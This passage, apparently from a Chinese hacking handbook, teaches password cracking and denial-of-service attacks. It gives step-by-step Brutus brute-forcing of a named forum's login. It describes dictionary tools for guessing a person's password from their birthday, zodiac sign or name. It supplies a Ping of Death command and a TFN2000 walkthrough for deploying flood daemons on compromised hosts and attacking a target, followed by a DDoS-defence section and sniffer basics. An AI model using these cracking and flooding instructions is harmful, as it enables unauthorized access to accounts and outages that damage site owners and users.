Target form 填上你要破解的地址，此处为 fcceec.net/bbs；然后点“Learn Form Settings”按钮，Brutus 就会分析出该网站的登录网页所有的资料（图 4-6-21）。

然后根据从源代码得知的字段 inmembername 和 inpassword，点框中的 inmembername；然后点击下面的 Username 按钮；再点框中的 inpassword，然后点下面的“Password”按钮，最后点“Accept”按钮表示认可。返回上一窗口后，如图 4-6-22 所示。

Brutus 已经智能地自动处理好了相关设置，如 Fake Cookies 等，然后按 OK 就回到主界面，设置好用户名字典和口令字典后点“Start”按钮开始进行破解。

Brutus 官方站点提供了 8 个插件：Cisco-Console.bad、Cisco-Enable.bad、Example-su-root.bad、NetBus.bad、NNTP-Authentication.bad、Shiva-LANRover.bad、SMTP_RCPT_user.bad 和 SMTP_VRFY_user.bad，可以用来破解 Cisco 路由器、UNIX 中用户变身为 root；破解新闻组账户、Shiva-LANRover（恕笔者孤陋寡闻，不知道这是破解什么的，哪位知道请告诉我，看其官方介绍好像是破解 ISP 远程拨号账户的）、SMTP 账户；破解特洛伊木马 NetBus 的密码。

由于笔者所在单位局域网没有路由器，所以没法亲自实验破解 Cisco 认证系统，请有兴趣并且有条件的读者亲自实验一下。经查阅相关资料得知，Cisco 路由器的验证有两部分，第一部分是 Console，这部分只询问密码而不询问用户名，登录后只能看到路由器的设置而不能修改设置。第二部分是 Enable 验证，登录到 Cisco 的 Console 模式后，输入 enable 就进入 Privileged Mode（特权方式），这种方式能够更改路由器的设置，故破解路由器只需根据需要选择 Cisco-Console 或 Cisco-Enable 中的一个类型。Brutus 的官方插件已经设好了相关的设置。

SMTP_VRFY 的破解是用于检查邮件服务器是否存在用户列表上的账户，这样就能得到正确的远程主机的用户清单，从而避免在不存在的账户破解口令上浪费时间。不过，很多邮件服务器为了安全已经关闭了 Finger 的服务，这种功能就因此受到局限而发挥不出作用。

NNTP-Authentication 是用来破解新闻组账户的，成功破解新闻组账户的情景如图 4-6-23 所示。这些插件其实是可以自己制作的。选择 Custom 方式完成 Define sequence 设置后，用菜单的“File”的“Export Service”导出来，起个破解认证系统的名字，如 IMAP4；然后将生成的 bad 文件放在 Brutus 所在的目录，或者在菜单“File”的“Import Service”导进来，这时就会在 Type 的下拉列表出现你自己制作的插件，这样就方便日后破解 Brutus 没有内置的认证系统了，如图 4-6-24 所示。

图 4-6-23

图 4-6-24

使用 Custom 方式要求使用者必须具备丰富的网络协议知识，这就决定了它的用户群不可能是像使用小榕开发的流光之类工具的菜鸟级黑客，这也是为什么这个工具在国内很少见的缘故。这个软件和扫描工具 SuperScan 搭配使用，几乎可以走遍天下。

### 4.7 字典工具也疯狂

字典是我们常用的一种黑客工具，一般就是一个密码集，里面包含了我们需要的全部密码的集合，然后用特定的程序加载，从而实现暴力破解目标密码的功能。本文不讨论怎么入侵、怎么攻击；我们来说说常用的密码字典工具。

#### 1. 万能钥匙

生成字典内容：包含几乎所有密码集合  
星级：★★★★★★

这是最常用的一个密码字典了，它是苏州大学文学院的沈浩用 C++ 编写的，功能强大，操作简单，根据用户配置可以生成任意的密码集合（如图 4-7-1）。

万能钥匙包含了 4 个部分的配置：电话号码，包括普通的 7、8 位座机电话、数字移动电话或者寻呼机的号码，生成的字典大概有 1700 万行；出生日期——也就是我们常说的生日号码，可以根据出生的年、月、日选择密码范围，还可以选择用 4 位数来表示年份和“十位补 0”方式来表示月份，如 19800807，生成的字典大概只有 1 万行；姓名字母——这是万能钥匙编制得很好的地方，它非常好地揣摩了中国人的姓名特点和上网族用自己的姓名作为密码的特点，详细罗列出了“姓、姓+名字、姓+名字声母”等姓名密码构成方式（图 4-7-2），详细且科学，生成的字典有 5 万行；英文数字——包含计算机中常用术语。

图 4-7-1

图 4-7-2

网络术语 150 个，常用数字 175 个，这些都是经过长期筛选确定下来的，对付一般上网族的密码比较管用。当然，要是你要使用暴力法破解数字密码，那就只有选择最后一个“其他数字（0-9999999）”，不过，这样生成的字典会非常的大！

和同类字典生成工具比较起来，万能钥匙的功能、范围是非常杰出的，不管是喜欢网络安全的骨灰级老大和新入门的菜鸟们都可以很方便很全面地通过它来得到想要的密码集——但万事都不可能是完美的，万能钥匙也是如此：如果你选择全部的配置项目，生成的字典将会超出你想象的大！而且万能钥匙生成字典的过程也相对来说慢了一点，我想如果是全部配置，普通用户的计算机会非常的累。所以要是你想使用它来生成字典，那么建议你分类生成字典（图 4-7-3）。

#### 2. 生日密码生成器

生成字典内容：专门针对生日密码生成字典  
星级：★★★★★

生日密码生成器是 Price.BBSt 编写的，“简单、实用、专一”，可以用来很贴切地形容这款字典工具软件。可以毫不夸张地说：如果你的密码是使用的自己的生日，那么用生日密码生成器打造的密码集中一定包含了你的密码（图 4-7-4）！

图 4-7-3

图 4-7-4

这款软件最好的地方就是可以通过使用者所知道的信息来配置相应范围（实际生活中往往就是这样的情况）——比如现在我只知道某人的生肖，那我就可以通过选择软件里面“生肖”的项来缩小字典范围；同样，我只是得到了别人的星座，我也可以通过设置来大大减小密码字典的长度（图 4-7-5）。这样的功能使用起来非常方便，能大大提高破解的时间和几率，实际上就是在程序中集成了特定的算法，这个算法可以通过确定生肖和星座来确定年份，相信这点难不倒大家，这里不再赘述。

我们知道：就算是使用生日作为自己的密码，配置的方式也千奇百怪。比如同一个生日，1978 年 1 月 2 日，有的人使用“19780102”作为自己的密码，有的使用“1978.1.2”作为自己密码，还有人或许会用“7812”作为密码……每个人的想法都是不同的，生日密码生成器也想到了这一点，它提供了 76 种不同的密码组合方式，在使用的时候可以选择一种方式来生成所有的密码，也可以用多种样式来生成同样的密码，堪称经典！具体组合方式见图 4-7-6。

图 4-7-5

图 4-7-6

#### 3. 字典专家

生成字典内容：所有密码字符  
星级：★★★★★

字典专家也是款可以生成任意密码的字典工具，但是它的生成方式和常用的同类软件不同，它是采用按段（位）的方式输入密码的（最大可以定义 16 段密码），如图 4-7-7 所示。也就是说，我们可以先设置密码共有几段（位），然后根据每段（位）密码的猜测情况来选择不同的字符。比如我们认为别人的密码前面是自己名字的缩写，是英文字母，后面是自己生日号码的数字，一共有 7 段，那么我们可以在字典专家中这样进行设置：前两段设置小写的字母作为密码，第三段因为不确定是数字还是字母，可以同时选择数字和字母，后面几段就选择数字，然后生成密码字典，这样的字典将非常准确！

图 4-7-7

对每段（位）密码的组成，字典专家都提供了 4 种不同的方式和一种自定义方式，具体包括：数字 0~9，小写字母 a-z，大写字母 A-Z，分割符（也就是我们平时说的特殊字符）! # % 等，还有一个“自定义”，你可以在里面填上自己认为是密码的东西——这一项是用来缩小密码范围的，比如我知道别人密码的第一位是数字 7，那我就可以将生成的密码字典中所有的密码第一位都自定义为 7。

对一般情况来讲，如果使用者知道需要的密码是几位、每位大概在什么范围，那就可以使用密码字典来快速生成一个与之相对应的密码集合；所以，密码字典的最大特点就是可以通过已获得的信息来有针对性地生成字典。

#### 4. txt2dic

生成字典内容：文本中单词组合  
星级：★★★★

对骨灰级的高手来讲，面对的密码很少情况下是生日、姓名之类的东西。高手或者说是专业人士使用的密码都是定期更换，而且没有特定的规律，他们的密码一般都是在特定的文本中按照一定的组合规律抓出来的，很多时候字典里面根本没有！这时候就会很棘手，因为时间或者是安全等问题的限制，不可能使用罗列式的暴力方法，对字典工具的要求就更严一层。txt2dic 就是用来解决这个难题的，它能够将特定文本中的字符提取出来，用不同的方法组合、替换，然后生成专门针对某一问题的密码集合，这样就能很容易地将本来由于时间、安全等因素限制的密码破解变得简单。

txt2dic 只需要简单地填上原始的文本文件地址、想要得到的输出密码字典文件位置，就能生成特定的密码集合。如果你了解更多的关于密码的信息，那你可以选择“过滤字串”来去掉有特定字符的密码；或者你知道密码是几位的组合，也可以选择相应的位数来确定密码的范围（图 4-7-8）。

图 4-7-8

上面是我们常用的字典工具，除此以外还有很多常用的密码字典，总的来讲是各有优势、各有千秋，还得留给你们自己去发现，这里也就不一一列举。如果你在某个特定的时候需要密码字典的帮助，不妨使用上面的几个软件来试试，相信一定能获得很好的效果。

## 第5章 防不胜防的攻击

## 5.1 DDoS攻击及其防范

最近一段时间，国内的几个大安全网站遭到强烈的分布式拒绝服务攻击（DDoS），服务器连续几十个小时无法正常工作，造成巨大的损失。这次攻击所使用的技术就是拒绝服务攻击的一种。分布式拒绝服务攻击已经成为网络安全界比较关心且较为头痛的攻击技术。下面我们就来介绍一下这种攻击手段以及防范方法。

#### 一、普通拒绝服务攻击

“拒绝服务”这个词来源于英文 Denial of Service（简称 DoS），它是一种简单的破坏性攻击，通常攻击者利用 TCP/IP 协议中的某个弱点，或者系统存在的某些漏洞，对目标系统发起大规模的进攻，致使攻击目标无法对合法的用户提供正常的服务。简单地说，拒绝服务攻击就是让攻击目标瘫痪的一种“损人不利己”的攻击手段。

拒绝服务只是攻击的目的，要完成拒绝服务攻击可以有很多途径，对 Windows 系统的 OOB 攻击、IGMP 攻击以及利用设备名的攻击都属于拒绝服务攻击之列，它们的共同点是使被攻击的目标无法提供正常的服务。

当然，这些攻击方式只是拒绝服务攻击大家族中的很少一部分，造成拒绝服务攻击的最多的种类是 TCP/IP 协议设计上的缺陷。例如曾经一度非常流行，甚至让网络管理员闻之色变的 Land 攻击，就是利用了 IP 协议中源地址容易被欺骗的弱点发动的攻击，所以它并不针对某一特殊系统，而是对凡是运行于 TCP/IP 协议之上的所有系统均可造成拒绝服务攻击，这也是这种攻击如此普遍的原因之一。

和完全攻破一个系统比较起来，造成系统的拒绝服务要更加容易些。因此，许多黑客新手都会以这种相对容易的方法来攻击网站，从而获得一种刺激和快感。

这种纯粹为了造成对方网络瘫痪而进行的拒绝服务，是为真正的黑客高手所不屑一顾的。真正的高手也许只是去发现这种攻击漏洞，并将它们公布出来，一般是不会亲自去为了攻击而攻击的，因为黑客精神中重要的一条就是永远追求更新的技术，而不是停留在做重复的事情上。

虽然真正的黑客很少单纯是为了攻击而去攻击，但这并不是说他们就不使用拒绝服务攻击，高手们所使用的拒绝服务通常是为了完成其他的攻击而必须做的。例如：

- 在目标机上放了木马，需要让目标机重新启动。
- 为了完成 IP 欺骗攻击，而被冒充的主机却瘫痪了。
- 在正式进攻之前，需要使目标的日志记录系统无法正常工作。

拒绝服务攻击的目的就是让被攻击目标无法正常地工作。从攻击方的角度看来，目标的连接速度减慢或者完全瘫痪，那么攻击的目的也就达到了。而在被攻击的一方看来，当遭到攻击时，系统会出现一些异常现象，例如系统出现蓝屏、CPU 占用率达到 100% 等，这时候就要考虑自己很可能已经遭到拒绝服务攻击了。

#### 二、常见的拒绝服务攻击

- SYN flood

SYN flood 也是一种较常见的拒绝服务攻击手段，它对 Windows NT 系统的攻击效果尤为明显。其原理是：正常完成一个 TCP 连接的初始化要求连接双方进行三个动作，即所谓的“三次握手”。其过程是这样的：

请求连接的客户机首先将一个带 SYN 标志位的包发送给服务器，服务器收到这个包后随即产生一个自己的 SYN 标志，并把收到的 SYN+1 作为 ACK 标志的等待确认包返还给客户机。最后，客户机在收到这个包之后发送一个 ACK（SYN+1）的确认包给服务器。此时，连接正式建立，双方可以使用 TCP 协议传输数据了。

在服务器发出等待确认包之后，它就会等待客户机发回 ACK 确认包。这时，这个连接就被加到未完成连接队列中了，直到收到 ACK 应答后才从该队列中删除。但大多数系统的未完成队列的数目是有限制的。如果超过这个数目，服务器就会丢弃后来收到的 TCP SYN 包。

因此，攻击者可以伪造许多 SYN 包（用虚假的 IP 源地址），再连接到被攻击方的一个或多个端口。被攻击的服务器就会向假 IP 地址发送等待确认包，然后等待回答。当然，那个假 IP 是不会响应的。这时，被攻击的服务器就会一直等待，直到超时后才从未完成队列中删除这个包，这个过程叫做“半开连接”。如果攻击者伪造的 SYN 包的数量巨大，造成未完成连接队列被填满时，正常用户发送的 TCP 连接请求就被丢弃了，这样就造成了拒绝服务。

- Smurf 攻击

Smurf 攻击的威胁性在于，它是一种具有放大效果的攻击方式。这种放大效果的原理是这样的：攻击者冒充被攻击者向某个网络上的广播设备发送请求，然后广播设备将请求转发给该网络上的大量设备，于是所有这些设备都向被攻击者进行回应，这样就达到了使用很小的代价来进行大量攻击的目的。

例如，攻击者冒充被攻击者的 IP，使用 ping 来对一个 C 类网络的广播地址发送 ICMP 包。这样，该网络上的 254 台主机都会对被攻击者的 IP 发送 ICMP 回应包。那么，攻击者每发一个包就会给被攻击者带来 254 个包的攻击效果。当然，普通的 ping 命令是不允许对广播地址发包的，但是攻击者完全可以使用编程的方法来达到这种效果。

不仅是 ICMP 包可以用来进行这种攻击，现在还有一种称为 Fraggle 的攻击工具，利用 UDP 包对某一网络的广播地址发送对 7 号端口（echo）包的攻击方式。这样，开放 7 号端口的主机会回应 UDP 包，而没有开放 7 号端口的主机也会发送 ICMP 不可达消息包，同样可以达到很好的攻击效果。

- Land 攻击

Land 也是因特网上最常见的拒绝服务攻击类型之一，它是由著名黑客组织 rootshell 发现的。原理很简单：利用向目标机发送大量的源地址和目标地址相同的包，造成目标机解析 Land 包时占用大量的系统资源，从而使网络功能完全瘫痪。

由于这种攻击是利用 TCP/IP 协议本身的漏洞，所以几乎所有连在因特网上的系统都会受到它的影响，尤其是对路由器进行的 Land 攻击威胁更大，会造成整个网络的瘫痪。

- 死亡之 Ping

“死亡之 Ping”攻击是通过向目标端口发送大量的超大尺寸的 ICMP 包来实现的。当目标收到这些 ICMP 碎片包后，会在缓冲区里重新组合它们。由于这些包的尺寸实在太大，以致造成缓冲区溢出，从而导致系统崩溃。

这种攻击实现起来非常简单，不需要任何其他的程序，只要在 Windows 9x、Windows NT 或者 Linux 的命令行上输入如下命令即可完成攻击：

```bash
ping -l 65527 -s 1 <攻击目标IP>
```

#### 三、新型拒绝服务攻击方式——DDoS

### 1. DDoS原理

在最近的攻击事件中，黑客使用一种称为“分布式拒绝服务”的攻击方式。“分布式拒绝服务”的英文是 Distributed Denial of Service，简称 DDoS。

要理解 DDoS 的原理，首先应该搞清楚分布式的意思。“分布”是在计算机科学里经常用到的一个词语，按照一般的理解，“分布”是指把较大的计算量或工作量由多个处理器或多个节点共同协作完成。理解了“分布”的概念，“分布式拒绝服务”攻击的含义就不难理解了。所谓“分布式拒绝服务”攻击，就是攻击者在客户端控制大量的攻击源，并且同时向攻击目标发起的一种拒绝服务攻击。

一个典型的分布式拒绝服务攻击网络结构如图 5-1-1 所示。


图5-1-1　分布式拒绝服务攻击

- 入侵并控制大量主机从而获取控制权。
- 在这些被入侵的主机中安装 DDoS 攻击程序。
- 利用这些被控制的主机对攻击目标发起 DDoS 攻击。

由于整个过程是自动化的，攻击者能够在 5 秒钟之内入侵一台主机并安装攻击工具。可想而知，在短短的一小时之内就可以入侵数千台主机。

##### 2. 分布式拒绝服务攻击工具

现在最常见的分布式拒绝服务攻击程序主要有 Trinoo、TFN 和 Stacheldraht 等几种。它们使用的最主要的攻击方法是利用 TCP/IP 协议中的漏洞，如允许碎片包、大数据包、IP 路由选择、半开 TCP 连接、数据包 flood 等等，这些都会降低系统性能，甚至使系统崩溃。

每个已知的拒绝服务漏洞一般都会有相应的攻击程序公布出来，每个攻击程序都是独立的。一个特定的漏洞攻击程序往往只影响某一版本的 TCP/IP 协议。发动 DDoS 的工具就是用各种语言将多种拒绝服务攻击程序组合起来。

这类工具的优点是允许一个攻击者使用多种攻击方法同时攻击单个 IP 地址，这大大增加了攻击的成功率，但也意味着必须将所有编译好的攻击程序打包好（如 UNIX 的“tar”文件），以便于传输和进行攻击。

同时，这类工具在允许使用多种拒绝服务攻击方法的情况下，还应该是一个单一的、更易于保存、传输和使用的已编译好的程序。

但是，这类分布式拒绝服务攻击的组合工具，一般只允许一个攻击者在同一时间内攻击一个 IP 地址。为了增加攻击的效率，多个攻击者可以通过 IRC 或电话来保持联系，并且每个人负责攻击不同的系统，以实现团体攻击。这种方法在探测漏洞、入侵系统、安装后门和 rootkit 的行动中经常被使用。

虽然存在一些使用上的限制，但这类工具仍然在不断地增加各种攻击程序，并形成了一个名为“拒绝服务集群”的软件包，trinoo 便是其中最常见的一个。还有一个是由一个名叫 Mixter 的黑客编写的类似工具——Tribe Flood Network（简称 TFN）。

与 trinoo 只实现 UDP 攻击相比，TFN 支持 ICMP flood、UDP flood、SYN flood 和 Smurf 攻击等。这些攻击通过发送 ICMP_ECHOREPLY（ICMP Type 0）包来进行控制。TFN 也使用了与 trinoo 一样的 Blowfish 加密算法。

可以肯定的是，这些分布式拒绝服务工具包将会得到进一步的发展与完善，功能更强大、隐蔽性更强。关键字符串、控制命令、口令将使用更强大的加密算法，或在被非攻击者自己使用时自行销毁，使用加密通信通道，使用像 ICMP 这种令防火墙更难监测或防御的协议进行数据包传输等等。

下面我们就详细介绍一下最常见的一种 DDoS 攻击程序——TFN2000。

##### 3. TFN2000

TFN2000 是一个通过主控端利用大量攻击端主机的资源，对一个或多个目标进行协同攻击的软件。大多数的 UNIX 和 Linux 平台的主机都能被用于此类攻击，而且可以非常容易地将这个工具移植到其他系统平台上。

TFN2000 主要由两部分组成：主控端上的客户端和攻击端上的守护进程。主控端向其攻击端发送攻击指定的目标主机列表；攻击端据此对目标进行拒绝服务攻击。由一个主控端控制的多个攻击端主机，能够在攻击过程中相互协调，以保证攻击的连续性。主控端和攻击端的网络通信是经过加密的，还可能混杂了许多虚假数据包。整个 TFN 网络可以使用不同的 TCP、UDP 或 ICMP 包进行通信，而且主控端还能伪造其 IP 地址。所有这些特性致使发展防御 TFN2000 攻击的策略和技术变得非常困难或效率低下。

- TFN2000 主要有以下特征：
  - 主控端通过 TCP、UDP、ICMP 或随机使用其中之一的数据包向代理端主机发送命令。对目标采用的攻击方法包括 TCP/SYN、UDP、ICMP/PING 或 BROADCAST PING（SMURF）数据包 flood 等。
  - 主控端与代理端之间数据包的头信息也是随机的，除了 ICMP 总是使用 ICMP_ECH_REPLY 类型的数据包。
  - 与上一代版本的 TFN 不同，TFN2000 的守护程序是完全沉默的，它对接收到的命令不会有任何回应。客户端将每一个命令重复发送 20 次，并且认为守护程序至少应该能接收到其中的一个。
  - 这些命令数据包可能混杂了许多发送到随机 IP 地址的伪造数据包。
  - TFN2000 命令采用了选项格式，其中 -x 是代表某个特定命令的数值，command 则是该命令的参数。
  - 所有命令都经过了 CAST-256 算法（RFC 2612）的加密。加密关键字在编译程序时定义，并作为 TFN2000 客户端程序的口令。
  - 所有加密数据在发送前都被编码（Base64）成可打印的 ASCII 字符。TFN2000 守护程序接收数据包并解密数据。
  - 守护进程为每一个攻击产生子进程。
  - TFN2000 守护进程试图通过修改 argv[0] 内容（或在某些平台中修改进程名）以掩饰自己。伪造的进程名在编译时指定，因此每次安装时都可能不同。这个功能可以使 TFN2000 伪装成代理端主机的正常进程。因此，只是简单地检查进程列表未必能找到 TFN2000 守护进程（及其子进程）。

- 安装

在一般的 Linux 环境中，只要解开压缩包后直接用 make 命令编译即可。在其他 UNIX 环境中，需要在 src 子目录下的 Makefile 文件中选择所处平台的编译选项。开始编译时，会要求你输入一个服务器密码，这个密码至少是 8 位字符。

TFN 服务器必须以 root 身份安装。由于它不会自动改变任何系统设置，所以当系统重启后，你需要重新运行它。一旦 TFN 服务器运行起来，你就可以向服务器列表中加入主机名，之后就可以在自己的计算机中用如下命令与 TFN 服务器进行联系了：

```bash
tfn -h hostname
# 或
tfn -f host.txt
```

hostname 就是你安装了 TFN 服务器程序的主机，而 host.txt 是一个包含了攻击目标的文件。

- 使用

如果不使用任何选项及参数，tfn 的默认命令将是停止攻击并关闭 TFN 服务器上的所有子进程。你通常可以使用 `-c <id>` 命令来发动攻击。主要的 ID 选项有：

- 从服务器上发出的 DoS 攻击通常会伪装 IP 源地址，通过这个选项，你可以控制服务器上的伪源地址。
- 默认的 ICMP/8、SMURF 和 UDP 攻击使用的是最小的攻击包，但这个选项允许改变发送的包的大小。
- 这是一个 bindshell 后门，当连往特定端口后，会直接进入一个 rootshell。
- 使用 UDP 洪水攻击。
- 使用 SYN 洪水攻击。
- 使用 ICMP 回应攻击。
- 使用 SMURF 攻击。
- 使用 MIX 攻击。
- 使用 TARGA3 攻击。
- 对安装了 TFN 服务器程序的远程主机执行 shell 命令。当使用这个选项时，需要同时使用 -i 再加上要执行的命令，然后用 `-i <攻击目标1@攻击目标2@攻击目标3...>` 来发动进攻即可。

还有一些其他的可选项，说明如下：

- `-P protocol`：选择与服务器进行联系的协议，可以选用 ICMP、TCP 和 UDP 协议。
- `-D n`：发送 n 个伪造的数据包。
- `-S host/ip`：伪造源 IP 地址。

- 攻击实例

下面是一次利用 TFN2000 进行攻击的实例，包括从软件安装到发动攻击的全部过程。假设我们已经控制了一台名为 sample.edu 的主机，现在我们把 TFN2000 软件包拷贝到那台主机的 /tmp 目录下，然后直接输入 make 命令来编译安装，它会要求你输入一个 8～12 位的密码。

在编译完成以后，会产生两个可执行文件：td 和 tfn。其中 td 是 TFN 服务器程序，tfn 是客户端程序。我们直接运行 td 命令来启动 TFN 服务器，并把 tfn 拷回到自己的机器中。

接下来，回到自己的机器上，用如下命令向 www.victim.com 发起一次标准的 UDP 洪水攻击：

```bash
tfn -h sample.edu -c 4 -i www.victim.com
```


到这里，攻击包就已经发送出去了！在这个例子中，我们只使用了一个 TFN 服务器程序进行攻击。如果攻击目标不是特别脆弱的话，一般是不会造成太大的损害的。但是，如果同时控制了 1000 台安装过 TFN 服务器程序的主机，然后把这些主机的名字添加到一个名叫 hosts 的文件里，再用如下命令攻击：

```bash
tfn -f hosts -c 4 -i www.victim.com
```

可以想象，攻击目标将同时遭受到 1000 台主机的猛烈攻击，那么它必死无疑！

#### 四、预防分布式拒绝服务攻击

要想完全抵挡住分布式拒绝服务攻击是比较困难的，因为这种攻击方法往往是利用了网络协议的一些正常特性来进行攻击的。要彻底抵抗 DoS 攻击，就势必要对现有的网络协议本身进行改造，这对于现在而言是不太现实的。虽然没有简单和专门的方法免受这些攻击，但是却可以应用各种安全和保护策略来尽量减少因受到攻击所造成的损害。

- 个人用户防范

对于个人用户来说，应使用如下策略尽量避免遭受攻击：

- 用户应该时常留意自己的网络通信量。这对于个人用户和小型网络尤为重要。在这些环境中，对“正常”的出站通信量是什么样子，用户已经有了一定的认识。如果你的电缆调制解调器正常情况下每分钟都会闪烁几次，但忽然有一天“传输”指示灯突然亮起来而且不熄灭，这就是一个发生了不正常事件的信号。

- 访问 Microsoft 的安全公告站点，下载所有尚未安装的合适的修补程序。这样可以有效防止被黑客入侵并作为发动拒绝服务攻击的傀儡，同时也可以避免被某些因系统漏洞导致的拒绝服务攻击方式攻击。

- 配置防火墙，阻止任何实际不需要的端口上的通信（或者最好直接忽略）。在个人计算机上使用个人防火墙，可以找到许多优秀的“个人防火墙”。Windows XP 中包括 ICF，而且其他供应商（如 ZoneAlarm 和 Symantec）为其他 Windows 版本设计防火墙。这些程序筛选入站与出站通信量，并在发生特殊事件时发出警报。例如，ZoneAlarm 将在计算机上的应用程序每次试图打开出站 TCP/IP 连接时都发出警告。通过注意这些警告，可以很快将无害通信量（例如，从 Internet Explorer 发出的 HTTP 请求）与可疑通信量（例如，自称从 winword.exe 产生的 IRC 通信量）区别开来。

- 网络系统防范

对于所有面临分布式拒绝服务攻击威胁的网络系统来说，下面也给出了一些简单易行且快速的安全策略：

- 得到因特网服务供应商（ISP）的协助和合作，这一点是非常重要的。分布式拒绝服务攻击主要是耗用带宽，如果单凭自己管理网络是无法对付这些攻击的。与你的 ISP 协商，确保他们同意帮助你实施正确的路由访问控制策略以保护带宽和内部网络。最理想的情况是，当发生攻击时你的 ISP 愿意监视或允许你访问他们的路由器。

- 优化路由和网络结构。如果管理的不仅仅是一台主机，而是一个网络，就需要调整路由表以将拒绝服务攻击的影响减到最小。为了防止 SYN flood 攻击，应设置 TCP 监听功能。详细资料请参阅相关路由器的技术文档。另外，禁止网络不用的 UDP 和 ICMP 包通过，尤其是不应该允许出站 ICMP“不可到达”的消息。

- 对所有可能成为目标的主机都进行优化，禁止所有不必要的服务。另外，拥有多 IP 地址的主机也会增加攻击者的难度。建议在多台主机中使用多 IP 地址技术，而这些主机的首页只会自动转向真正的 Web 服务器。

如果发现这些数据包来自某些 ISP 时，应尽快和他们取得联系。千万不要依赖数据包中的源地址，因为正如我们在上一节中看到的，它们往往都是随机伪造的。能否迅速准确地确定伪造来源，取决于你的响应动作是否迅速，因为路由器中的记录可能会在攻击中止后很快就被清除。

- 5. 对于作为可能被入侵的对象，需要尽快采取合理和有效的措施。现在的拒绝服务攻击服务器都只被安装到 Linux 和 Solaris 系统中，所以应确保主机不被入侵并且是安全的。现在因特网上有许多旧的和新的漏洞攻击程序，网络管理员应经常检查漏洞数据库，如 www.securityfocus.com 或 packetstorm.security.com 等，以确保你的服务器不受这些漏洞的影响。记住，入侵者总是利用现有的漏洞进入系统并安装攻击程序。系统管理员应该经常检查服务器的配置和安全问题，运行最新升级的软件版本，最重要的一点，就是只运行必要的服务。如果能够完全按照以上建议去做，系统就可以被认为是足够安全的，而且不会被入侵和控制。
- 6. 必须周期性地审核系统。按照我们的经验，虽然许多主机已经被黑客成功入侵了，但是管理员还毫无察觉。所以，应该充分了解系统和服务器软件是如何工作的；经常检查系统的配置和安全策略。还要时刻留意一些安全站点公布的与自己管理的操作系统及软件有关的最新安全漏洞和问题。
- 7. 为了确定系统是否被入侵，还应经常检查文件的完整性。在系统未曾被入侵时，必须对所有二进制程序和其他重要的系统文件产生文件签名，并且周期性地与这些文件比较以确保不被非法修改。另外，建议将文件“校验和”保存到另一台相对坚固的主机当中。可用来检查文件完整性的免费工具有很多，如 tripwire 等，中国的网管们可以在玩 MUD 的空闲时间里下载回来试用一下。
- 8. 对于在路由器级防止 DDoS 的方法，应使用 `ip verify unicast reverse-path` 网络接口命令，这个命令的功能是检查每一个经过路由器的数据包。在路由器的 CEF（Cisco Express Forwarding）表中列有该数据包可到达的网络接口的所有路由，如果在 CEF 中没有该数据包源 IP 地址的路由，路由器将丢弃该数据包。例如，路由器接收到一个源 IP 地址为 202.111.222.333 的数据包，如果 CEF 路由表中没有为 IP 地址 202.111.222.333 提供任何路由，即反向数据包传输时所需的路由，则路由器会丢弃它。
- 9. 反向传输路径转发可以阻止 SMURF 攻击和其他基于 IP 地址伪装的攻击，这能够保护网络和客户免受来自因特网其他地方的侵犯。使用 Unicast RPF 需要打开路由器的 CEF switching 或 CEF distributed switching 选项，不需要将输入接口配置为 CEF 交换。只要该路由器打开了 CEF 功能，所有独立的网络接口都可以配置为其他交换模式。反向传输路径转发属于在一个网络接口或子接口上激活的输入端功能，它负责处理路由器接收的数据包。在路由器上打开 CEF 功能是非常重要的，因为 RPF 必须依靠 CEF。Unicast RPF 包含在支持 CEF 的 Cisco IOS 12.0 及以上版本中。

## 5.2 Sniffer原理及攻击实例

Sniffer，中文可以翻译为嗅探器，是一种威胁性极大的被动攻击工具。使用这种工具，可以监视网络的状态、数据流动情况以及网络上传输的信息。当信息以明文的形式在网络上传输时，便可以使用网络监听的方式来进行攻击。将网络接口设置在监听模式，便可以将网上传输的源源不断的信息截获。黑客们常常用它来截获用户的口令。据说某个骨干网络的路由器曾经被黑客攻入，并嗅探到大量的用户口令。本文将详细介绍 Sniffer 的原理和应用。

### 一、Sniffer原理

##### 1. 网络技术与设备简介

在讲述 Sniffer 的概念之前，首先需要讲述局域网设备的一些基本概念。数据在网络上是以很小的称为帧（Frame）的单位传输的，帧由几部分组成，不同的部分执行不同的功能。帧通过特定的称为网络驱动程序的软件进行成形，然后通过网卡发送到网线上，通过网线到达它们的目的机器，在目的机器的一端执行相反的过程。接收端机器的以太网卡捕获到这些帧，并告诉操作系统帧已到达，然后对其进行存储。就是在这个传输和接收的过程中，嗅探器会带来安全方面的问题。

每一个在局域网（LAN）上的工作站都有其硬件地址，这些地址唯一地表示了网络上的机器（这一点与 Internet 地址系统比较相似）。当用户发送一个数据包时，这些数据包就会发送到 LAN 上所有可用的机器。

在一般情况下，网络上所有的机器都可以“听”到通过的流量，但对不属于自己的数据包则不予响应（换句话说，工作站 A 不会捕获属于工作站 B 的数据，而是简单地忽略这些数据）。如果某个工作站的网络接口处于混杂模式（关于混杂模式的概念会在后面解释），那么它就可以捕获网络上所有的数据包和帧。

##### 2. 网络监听原理

Sniffer 程序是一种利用以太网的特性把网络适配卡（NIC，一般为以太网卡）置为混杂（Promiscuous）模式状态的工具，一旦网卡设置为这种模式，它就能接收传输在网络上的每一个信息包。

普通的情况下，网卡只接收和自己的地址有关的信息包，即传输到本地主机的信息包。要使 Sniffer 能接收并处理这种方式的信息，系统需要支持 BPF，Linux 下需要支持 SOCKET-PACKET。但一般情况下，网络硬件和 TCP/IP 堆栈不支持接收或者发送与本地计算机无关的数据包，所以，为了绕过标准的 TCP/IP 堆栈，网卡就必须设置为我们刚开始讲的混杂模式。一般情况下，要激活这种方式，内核必须支持这种伪设备 BPfilter，而且需要 root 权限来运行这种程序，所以 Sniffer 需要 root 身份安装，如果只是以本地用户的身份进入了系统，那么不可能嗅探到 root 的密码，因为不能运行 Sniffer。

基于 Sniffer 这样的模式，可以分析各种信息包并描述出网络的结构和使用的机器。由于它接收任何一个在同一网段上传输的数据包，所以也就存在着捕获密码、各种信息、秘密文档等一些没有加密的信息的可能性。这成为黑客们常用的扩大战果的方法，用来夺取其他主机的控制权。

### 3. Sniffer的分类

Sniffer 分为软件和硬件两种。软件的 Sniffer 有 NetXray、Packetboy、Net monitor 等，其优点是物美价廉，易于学习使用，同时也易于交流；缺点是无法抓取网络上所有的传输，某些情况下也就无法真正了解网络的故障和运行情况。硬件的 Sniffer 通常称为协议分析仪，一般都是商业性的，价格也比较贵。

